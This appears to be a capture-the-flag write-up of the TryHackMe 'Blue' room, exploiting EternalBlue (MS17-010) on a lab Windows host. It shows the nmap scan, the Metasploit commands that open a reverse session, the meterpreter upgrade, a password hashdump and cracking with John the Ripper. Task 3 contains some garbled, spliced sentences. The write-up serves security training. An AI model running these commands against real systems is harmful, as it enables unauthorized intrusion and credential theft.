 A guided write to the "Blue" room on THM
TryHackMe Room: https://tryhackme.com/room/blue

# Background on Eternal Blue
Server Message Block (SMB) is a network protocol used by Windows systems to share files, printers, and other resources over a network. It allows a client to request access to files or services on a server, and the server responds with the requested data or action. SMB operates over TCP ports 139 and 445, with modern systems using port 445 by default.

The protocol manages authentication, communication, and data transfer between systems. It supports operations like reading and writing files, creating directories, and controlling printers. SMB also handles inter-process communication through named pipes, which lets applications on different machines communicate.

SMBv1, the earliest version, is outdated and has weak security controls. It trusts input too easily and does not handle malformed requests safely. These weaknesses led to critical exploits like EternalBlue. Later versions, SMBv2 and SMBv3, improved efficiency and added stronger security measures, including encryption and better authentication methods.

EternalBlue specifically abuses the way SMBv1 processes specially crafted packets. By sending malicious requests, an attacker triggers a buffer overflow that allows them to execute arbitrary code on the target system with high privileges. This makes SMB both essential in Windows environments and a high-value target when unpatched.

# task 1 (recon) 
Objective: Identify open ports, services, and potential vulnerabilities on the target machine.

Command Used:
```bash
nmap --script="vuln" -sV -sC -A -T5 10.10.56.99
```

Explanation of Flags:
--script="vuln": Runs vulnerability scripts to check for known weaknesses.

-sV: Detects service versions.

-sC: Runs default scripts for additional info.

-A: Enables OS detection, version detection, script scanning, and traceroute.

-T5: Increases scan speed.

Scan Results Summary:
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20114952%20-%20Copy.png)

Observations:
* SMB ports (139/445) are open, making it a primary target.

* RDP (3389) is tcpwrapped — needs credentials.

* RPC ports (135 + high range) are open but not directly exploitable without authentication.
Key takeaway:
MS17-010 is the exploitable vector. This allows remote code execution via SMBv1 without authentication in many cases.

# Task 2 Gain Access
Task 2 – Gaining Access (THM Writeup)
Objective

The goal of this task was to gain access to the target Windows machine by exploiting a known vulnerability in the SMBv1 service, specifically MS17-010, also known as EternalBlue.

Steps Taken

Starting the Exploitation
The first step involved opening the Metasploit Framework, a commonly used exploitation tool. This allowed access to a large set of pre-built exploits and payloads specifically designed for known vulnerabilities like MS17-010.

Finding the Correct Exploit
Within the framework, a search was conducted to locate the exploit module that targets MS17-010. The module designed for Windows SMBv1 was selected as it matched the target system’s open SMB port and version.

Reviewing Module Requirements
Before running the exploit, the module options were reviewed. This included confirming the target IP, the port on which SMB was running, and the payload to use for gaining a session. It is important to verify these details to ensure the exploit runs successfully.

Setting Up the Exploit
The exploit module was configured with the target machine’s IP and a payload that would create a remote session back to the attacking machine. This step ensures that, when the exploit succeeds, access is granted in a controlled and predictable way.

Launching the Exploit
The exploit was executed against the target machine. Due to the vulnerability in SMBv1, the exploit successfully triggered remote code execution, providing a session on the system.

the following lines of code was used minus the output are
```bash
msfconsole
search ms17-010
use 0
show options
set RHOST 10.10.56.99
Set LHOST 10.8.196.205
exploit
```
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20121655.png)
# Task 3 (Privlage Escalation)
By using one of the post exploitation modules, we will upgrade our shell to meterpreter shell

```bash
search shell_to_meterpreter
```

we can see list of modules, there we find only one module, shown below

post/multi/manage/shell_to_meterpreter
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123638.png)
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123703.png)
As giHere we need to set the “SESSION” also the LHOST

After setting all these, we will Exploit to get the meterpreter shellven below to interact with the module we will be using “use 0” and then show options, what options we will be required to change ?
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
# task 4 cracking
As said to run the command “hashdump” these command had dumped three user names along with the encrypted passwords, we need to crack the encrypted password and find out the answer.
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
 I cracked the password with the help from john the ripper 
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202024-02-22%20181804.png)
 #task 5 (flag)
 we have have full access to the computer we can access the flags

